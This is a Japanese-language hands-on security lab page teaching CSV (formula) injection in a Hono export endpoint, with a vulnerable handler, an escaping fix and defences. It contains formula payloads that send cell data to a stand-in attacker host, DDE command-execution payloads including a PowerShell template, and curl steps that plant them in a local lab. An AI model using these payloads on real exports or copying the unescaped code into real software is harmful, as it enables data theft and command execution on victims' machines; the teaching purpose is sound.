


# CSV Injection (Formula Injection) — エクスポート機能を通じた攻撃コードの埋め込み

> ユーザーが入力した値がそのまま CSV ファイルに書き出されることで、ファイルを開いた人の PC 上でスプレッドシートの数式として実行されてしまう脆弱性を学びます。

---

## 対象ラボ

| 項目 | 内容 |
|------|------|
| **概要** | ユーザー入力値をサニタイズせずに CSV エクスポートに含めることで、エクスポートされた CSV を Excel や Google Sheets で開いた際に悪意のある数式が実行される |
| **攻撃例** | フォームに `=HYPERLINK("https://evil.example.com/steal?d="&A1, "Click here")` や `=CMD\|'/C calc'\!A0` を入力し、CSV エクスポートされたファイルを被害者が開く |
| **技術スタック** | Hono API (CSV エクスポートエンドポイント) |
| **難易度** | ★★☆ 中級 |
| **前提知識** | CSV 形式の基本、Web アプリのエクスポート機能、スプレッドシートの数式の概念 |

---

## この脆弱性を理解するための前提

### CSV エクスポートの仕組み

多くの Web アプリケーションは、データの一覧を CSV（Comma-Separated Values）形式でエクスポートする機能を備えている。ユーザー管理画面、注文履歴、問い合わせ一覧、アンケート結果など、テーブル形式のデータをダウンロードして Excel や Google Sheets で分析・加工するのは日常的なワークフローだ。

```typescript
// 典型的な CSV エクスポートの実装
app.get('/export', async (c) => {
  const feedbacks = await db.query('SELECT name, comment, created_at FROM feedbacks');

  const csv = [
    'Name,Comment,Date',
    ...feedbacks.rows.map(
      (row) => `${row.name},${row.comment},${row.created_at}`
    ),
  ].join('\n');

  return new Response(csv, {
    headers: {
      'Content-Type': 'text/csv',
      'Content-Disposition': 'attachment; filename="feedbacks.csv"',
    },
  });
});
```

生成される CSV ファイルの中身は単純なテキストに見える:

```csv
Name,Comment,Date
田中太郎,素晴らしいサービスでした,2025-01-15
佐藤花子,改善点がいくつかあります,2025-01-16
```

### どこに脆弱性が生まれるのか

問題は、Excel や Google Sheets などのスプレッドシートアプリケーションが **セルの先頭文字を見て数式かどうかを判定する** ことにある。以下の文字で始まるセルは数式として解釈される:

| 先頭文字 | 解釈 |
|----------|------|
| `=` | 数式 (Formula) |
| `+` | 数式 (正の数値または数式) |
| `-` | 数式 (負の数値または数式) |
| `@` | 数式 (Excel の `@` 関数参照) |
| `\t` (タブ) | 一部のスプレッドシートで数式トリガー |
| `\r` (CR) | 一部のスプレッドシートで数式トリガー |

ユーザーがフォームの入力欄にこれらの文字で始まる値を意図的に入力した場合、その値がそのまま CSV に書き出されると、ファイルを開いた人の PC 上で数式として実行される。

```typescript
// ⚠️ この部分が問題 — ユーザー入力をサニタイズせずにそのまま CSV に含めている
app.get('/export', async (c) => {
  const feedbacks = await db.query('SELECT name, comment, created_at FROM feedbacks');

  const csv = [
    'Name,Comment,Date',
    ...feedbacks.rows.map(
      // ユーザーの comment がそのまま CSV のセルになる
      (row) => `${row.name},${row.comment},${row.created_at}`
    ),
  ].join('\n');

  return new Response(csv, { /* ... */ });
});
```

攻撃者が comment に `=HYPERLINK("https://evil.example.com/steal?d="&A1, "詳細はこちら")` と入力すると、CSV は以下のようになる:

```csv
Name,Comment,Date
田中太郎,素晴らしいサービスでした,2025-01-15
attacker,=HYPERLINK("https://evil.example.com/steal?d="&A1, "詳細はこちら"),2025-01-17
```

管理者がこの CSV を Excel で開くと、`Comment` 列のセルが数式として実行され、`A1`（`Name` 列の値）の内容を攻撃者のサーバーに送信するリンクが表示される。

---

## 攻撃の仕組み



### 攻撃のシナリオ

1. **攻撃者** が Web アプリケーションのフォームに悪意のある数式を入力する

   攻撃者はフィードバックフォームや問い合わせフォームなど、ユーザーが自由にテキストを入力できる箇所に、スプレッドシートの数式として解釈される文字列を入力して送信する。

   ```
   名前: attacker
   コメント: =HYPERLINK("https://evil.example.com/steal?d="&A1, "詳細はこちら")
   ```

   この入力はサーバー側では単なるテキスト文字列として保存される。Web アプリ自体には何も問題は起きない。

2. **サーバー** がこの入力をサニタイズせずにデータベースに保存する

   入力値はそのままデータベースに格納される。SQL インジェクションのようにサーバー側で即座に攻撃が発生するわけではないため、開発者がこの入力を危険だと認識しにくい。

   ```sql
   INSERT INTO feedbacks (name, comment)
   VALUES ('attacker', '=HYPERLINK("https://evil.example.com/steal?d="&A1, "詳細はこちら")');
   ```

3. **管理者** が CSV エクスポート機能を使ってデータをダウンロードする

   管理者は日常業務としてフィードバック一覧を CSV でエクスポートする。サーバーはデータベースから値を取得し、そのまま CSV ファイルを生成する。

   ```csv
   Name,Comment,Date
   田中太郎,素晴らしいサービスでした,2025-01-15
   attacker,"=HYPERLINK(""https://evil.example.com/steal?d=""&A1, ""詳細はこちら"")",2025-01-17
   ```

4. **管理者** が CSV ファイルを Excel や Google Sheets で開く

   スプレッドシートアプリケーションは `=` で始まるセルを数式として解釈し、実行する。この例では `HYPERLINK` 関数により、同じ行の `A1` セル（他のユーザーの名前）の値を含む URL へのリンクが生成される。管理者がそのリンクをクリックすると、データが攻撃者のサーバーに送信される。

   より危険なペイロードの例:

   ```
   =CMD|'/C powershell -e [base64エンコードされたコマンド]'!A0
   ```

   Windows の Excel では DDE (Dynamic Data Exchange) を利用して、OS コマンドを直接実行できるケースがある。これにより攻撃者は管理者の PC 上で任意のコマンドを実行できる可能性がある。

### なぜ成功するのか

| 条件 | 説明 |
|------|------|
| ユーザー入力がそのまま CSV に含まれる | サーバーが入力値をサニタイズ・エスケープせずに CSV 出力に含めるため、数式として解釈される文字列がそのまま書き出される |
| スプレッドシートが先頭文字で数式判定する | Excel や Google Sheets は `=`, `+`, `-`, `@` で始まるセルを自動的に数式として解釈・実行する仕様になっている |
| CSV ファイルへの信頼 | 管理者は自社アプリからエクスポートした CSV を信頼して開くため、警告が表示されても無視してしまう傾向がある |

### 被害の範囲

- **機密性**: `HYPERLINK` 関数を使って CSV 内の他のセル値（ユーザーの個人情報など）を攻撃者のサーバーに外部送信される。管理者が閲覧する全データが漏洩の対象になりうる
- **完全性**: DDE (Dynamic Data Exchange) を利用した `CMD` 実行により、管理者の PC 上で任意のコマンドが実行される。ファイルの改ざんやマルウェアのインストールが可能になる
- **可用性**: コマンド実行による PC の乗っ取りやランサムウェアの展開により、管理者の業務環境が破壊される可能性がある

---

## 対策



### 根本原因

ユーザー入力が **CSV セルの内容としてそのまま出力される** ことが根本原因。サーバーにとっては単なる文字列だが、スプレッドシートアプリケーションにとっては **実行可能なコード** として解釈される。つまり、出力先のコンテキスト（スプレッドシート）における「コードとデータの境界」が守られていない。

### 安全な実装

安全な実装では、CSV に出力する値に対して **数式インジェクション防止のためのエスケープ処理** を行う。具体的には、数式として解釈される先頭文字（`=`, `+`, `-`, `@`, `\t`, `\r`）で始まるセルの先頭にシングルクォート `'` を付加する。Excel はシングルクォートで始まるセルの値をテキストとして扱い、数式として解釈しない。

```typescript
// ✅ 安全な実装 — CSV 出力時に数式インジェクションを防止する

// 数式として解釈される危険な先頭文字
const FORMULA_PREFIXES = ['=', '+', '-', '@', '\t', '\r'];

/**
 * CSV セルの値を安全にエスケープする
 * - 数式トリガー文字で始まる値の先頭にシングルクォートを付加
 * - カンマ、改行、ダブルクォートを含む値をダブルクォートで囲む
 */
function escapeCsvCell(value: string): string {
  // 数式インジェクション対策: 危険な先頭文字の前にシングルクォートを付加
  let escaped = value;
  if (FORMULA_PREFIXES.some((prefix) => value.startsWith(prefix))) {
    escaped = `'${value}`;
  }

  // 標準的な CSV エスケープ: カンマ、改行、ダブルクォートを含む場合
  if (escaped.includes(',') || escaped.includes('\n') || escaped.includes('"')) {
    escaped = `"${escaped.replace(/"/g, '""')}"`;
  }

  return escaped;
}

app.get('/export', async (c) => {
  const feedbacks = await db.query('SELECT name, comment, created_at FROM feedbacks');

  const csv = [
    'Name,Comment,Date',
    ...feedbacks.rows.map(
      (row) =>
        `${escapeCsvCell(row.name)},${escapeCsvCell(row.comment)},${escapeCsvCell(row.created_at)}`
    ),
  ].join('\n');

  return new Response(csv, {
    headers: {
      'Content-Type': 'text/csv',
      'Content-Disposition': 'attachment; filename="feedbacks.csv"',
    },
  });
});
```

攻撃者が `=HYPERLINK(...)` を入力しても、CSV 出力時に `'=HYPERLINK(...)` に変換される。Excel はシングルクォートで始まるセルの内容をテキストリテラルとして扱うため、数式として実行されない。ユーザーに表示される値は `=HYPERLINK(...)` のままであり、見た目にも影響しない（シングルクォートは表示されない）。

#### 脆弱 vs 安全: コード比較

```diff
  app.get('/export', async (c) => {
    const feedbacks = await db.query('SELECT name, comment, created_at FROM feedbacks');

    const csv = [
      'Name,Comment,Date',
      ...feedbacks.rows.map(
-       (row) => `${row.name},${row.comment},${row.created_at}`
+       (row) =>
+         `${escapeCsvCell(row.name)},${escapeCsvCell(row.comment)},${escapeCsvCell(row.created_at)}`
      ),
    ].join('\n');

    return new Response(csv, { /* ... */ });
  });
```

脆弱なコードではユーザー入力がそのまま CSV セルの値になるため、`=` で始まる値が数式として解釈される。安全なコードでは `escapeCsvCell()` がすべての値を処理し、数式トリガー文字で始まる値にシングルクォートを付加するため、スプレッドシートがテキストとして扱う。

### その他の防御策

| 対策 | 種類 | 説明 |
|------|------|------|
| セル値のプレフィクスエスケープ | 根本対策 | `=`, `+`, `-`, `@` 等で始まる値の先頭にシングルクォート `'` を付加する。これが最も効果的で必須の対策 |
| 入力時のバリデーション | 多層防御 | フォーム入力時にこれらの先頭文字を検出して警告する。ただし正当な入力（例: メールアドレスの先頭が `-` や `+` のケース、数式を意味しない `-500` のような値）を誤ブロックする可能性があるため、根本対策にはならない |
| Content-Type ヘッダーの設定 | 多層防御 | `Content-Type: text/csv` を正しく設定することで、ブラウザが CSV をテキストとして扱う。ただし、ダウンロード後にスプレッドシートで開かれる場合は効果がない |
| CSV 以外の形式への変更 | 根本対策 | エクスポート形式を XLSX (Office Open XML) に変更し、セルの書式を明示的にテキストに指定する。数式としての解釈を根本的に防止できる |
| セキュリティ警告の表示 | 検知 | CSV ダウンロード時に「外部ソースのデータが含まれている可能性があります」と警告を表示する。ただしユーザーが無視する可能性がある |

---

## ハンズオン手順

### Step 1: 脆弱バージョンで攻撃を体験

**ゴール**: フォームに数式を入力し、エクスポートされた CSV に攻撃ペイロードがそのまま含まれることを確認する

1. 開発サーバーを起動する

   ```bash
   cd backend && pnpm dev
   ```

2. まず正常なフィードバックを登録する

   ```bash
   # 正常なデータを登録
   curl -X POST http://localhost:3000/api/labs/csv-injection/vulnerable/feedback \
     -H "Content-Type: application/json" \
     -d '{"name": "田中太郎", "comment": "素晴らしいサービスでした"}'
   ```

3. 悪意のある数式を含むフィードバックを登録する

   ```bash
   # 攻撃ペイロードを登録
   curl -X POST http://localhost:3000/api/labs/csv-injection/vulnerable/feedback \
     -H "Content-Type: application/json" \
     -d '{"name": "attacker", "comment": "=HYPERLINK(\"https://evil.example.com/steal?d=\"&A1, \"詳細はこちら\")"}'
   ```

4. CSV エクスポートを実行する

   ```bash
   # CSV ファイルをダウンロード
   curl http://localhost:3000/api/labs/csv-injection/vulnerable/export -o feedbacks_vulnerable.csv
   ```

5. エクスポートされた CSV の中身を確認する

   ```bash
   cat feedbacks_vulnerable.csv
   ```

   - `=HYPERLINK(...)` がそのままセルの値として含まれていることを確認する
   - このファイルを Excel や Google Sheets で開くと、数式として実行される
   - **この結果が意味すること**: ユーザー入力が一切のサニタイズなしに CSV 出力に含まれたため、スプレッドシートが数式として解釈する文字列がそのまま書き出された

6. (任意) 他の攻撃ペイロードも試す

   ```bash
   # 別の攻撃パターン: 他のセルのデータを外部送信
   curl -X POST http://localhost:3000/api/labs/csv-injection/vulnerable/feedback \
     -H "Content-Type: application/json" \
     -d '{"name": "attacker2", "comment": "+cmd|\"/C calc\"!A0"}'
   ```

### Step 2: 安全バージョンで防御を確認

**ゴール**: 同じ攻撃ペイロードが CSV エクスポート時にエスケープされることを確認する

1. 同じ攻撃ペイロードを安全なエンドポイントに登録する

   ```bash
   # 攻撃ペイロードを安全版に登録
   curl -X POST http://localhost:3000/api/labs/csv-injection/secure/feedback \
     -H "Content-Type: application/json" \
     -d '{"name": "attacker", "comment": "=HYPERLINK(\"https://evil.example.com/steal?d=\"&A1, \"詳細はこちら\")"}'
   ```

2. 安全な CSV エクスポートを実行する

   ```bash
   # 安全版の CSV をダウンロード
   curl http://localhost:3000/api/labs/csv-injection/secure/export -o feedbacks_secure.csv
   ```

3. エクスポートされた CSV の中身を確認する

   ```bash
   cat feedbacks_secure.csv
   ```

   - `=HYPERLINK(...)` が `'=HYPERLINK(...)` に変換されていることを確認する
   - シングルクォートが先頭に付加されているため、スプレッドシートで開いてもテキストとして表示される

4. コードの差分を確認する

   - `backend/src/labs/step02-injection/csv-injection.ts` の脆弱版と安全版を比較
   - **どの行が違いを生んでいるか** に注目: `escapeCsvCell()` 関数の適用有無

### 確認ポイント

以下を自分の言葉で説明できれば、このラボは完了です:

- [ ] スプレッドシートアプリケーションはどの先頭文字のセルを数式として解釈するか
- [ ] なぜ Web アプリのサーバー側ではなくクライアント（スプレッドシート）で攻撃が発生するのか
- [ ] CSV エクスポートにおいてユーザー入力をそのまま含めることがなぜ危険なのか
- [ ] シングルクォートのプレフィクスは「なぜ」この攻撃を無効化するのか（Excel がシングルクォートで始まるセルをどう扱うか説明できるか）

---

## 実装メモ

| 項目 | パス |
|------|------|
| 脆弱エンドポイント (フィードバック登録) | `/api/labs/csv-injection/vulnerable/feedback` |
| 脆弱エンドポイント (CSV エクスポート) | `/api/labs/csv-injection/vulnerable/export` |
| 安全エンドポイント (フィードバック登録) | `/api/labs/csv-injection/secure/feedback` |
| 安全エンドポイント (CSV エクスポート) | `/api/labs/csv-injection/secure/export` |
| バックエンド | `backend/src/labs/step02-injection/csv-injection.ts` |
| フロントエンド | `frontend/src/labs/step02-injection/pages/CsvInjection.tsx` |

- 脆弱版では `row.comment` をそのまま CSV 文字列に結合する
- 安全版では `escapeCsvCell()` ヘルパー関数を通してから CSV に結合する
- フィードバックデータはインメモリの配列で管理（DB テーブル不要）
- CSV の `Content-Type` は `text/csv`、`Content-Disposition` で `attachment` を指定

---

## 現実世界での事例

| 年 | インシデント | 概要 |
|----|-------------|------|
| 2014 | Google Spreadsheets CSV Injection | Google Sheets のインポート機能で CSV 内の数式が自動実行される問題が報告され、`IMPORTXML` 関数を使った外部データ送信が可能だった |
| 2017 | HackerOne 複数報告 | Shopify、GitLab、Liberapay 等の CSV エクスポート機能における Formula Injection が報告され、バグバウンティの対象となった |

---

## 関連ラボ

| ラボ | 関連性 |
|------|--------|
| [XSS (クロスサイトスクリプティング)](./xss.md) | XSS は「ブラウザ上で JavaScript が実行される」注入攻撃、CSV Injection は「スプレッドシート上で数式が実行される」注入攻撃。どちらも「出力先コンテキストに応じたエスケープの不足」が根本原因 |
| [OS コマンドインジェクション](./command-injection.md) | CSV Injection の DDE 攻撃では最終的に OS コマンドが実行される。コマンドインジェクションと同じ被害レベルに達する可能性がある |

---

## 参考資料

- [OWASP - CSV Injection](https://owasp.org/www-community/attacks/CSV_Injection)
- [CWE-1236: Improper Neutralization of Formula Elements in a CSV File](https://cwe.mitre.org/data/definitions/1236.html)
- [OWASP Web Security Testing Guide - Testing for CSV Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/15-Testing_for_CSV_Injection)
